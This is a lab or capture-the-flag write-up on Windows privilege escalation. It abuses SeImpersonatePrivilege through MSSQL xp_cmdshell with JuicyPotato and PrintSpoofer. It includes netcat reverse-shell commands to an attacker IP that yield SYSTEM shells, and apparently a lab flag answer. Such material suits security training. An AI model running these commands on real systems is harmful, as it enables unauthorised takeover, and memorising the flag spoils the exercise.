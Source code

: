 # SeImpersonate and SeAssignPrimaryToken

`SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` is the key to elevate the local privileges to System. Normally, these privileges are assigned to service users, admins, and local systems — high integrity elevated users.

If the machine is running **IIS** or **SQL services**, these privileges will be **enabled by default**.

**Connecting with MSSQLClient.py**

```bash
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

**Enabling xp\_cmdshell**

```shell-session
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

Note: We don't actually have to type `RECONFIGURE` as Impacket does this for us.

**Confirming Access**

```shell-session
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

**Checking Account Privileges**

```shell-session
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
```

* [<mark style="color:purple;">**SeImpersonatePrivilege**</mark>](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) <mark style="color:purple;">**is listed**</mark>

**Escalating Privileges Using JuicyPotato**

```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```

* `-l` -> COM server listening port
* `-p` -> program to launch
* `-a` -> argument passed to cmd.exe
* `-t` -> create process call

```shell-session
sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

### PrintSpoofer and RoguePotato

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.

**Escalating Privileges using PrintSpoofer**

```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        
[+] Named pipe listening...                                                        
[+] CreateProcessAsUser() OK                                                       

NULL 
```

* `-c` -> execute a command

**Catching Reverse Shell as SYSTEM**

```shell-session
nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

## Assessment

**Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt**

1.  launch `impacket-mssqlclient` to connect to mssqlserver

    <figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>
2.  Seems like the xp\_xmdshell is already enabled and SeImpersonatePrivilege is enabled.

    <figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>
3.  run the attack\


    <figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>F3ar_th3_p0tato!</p></figcaption></figure>
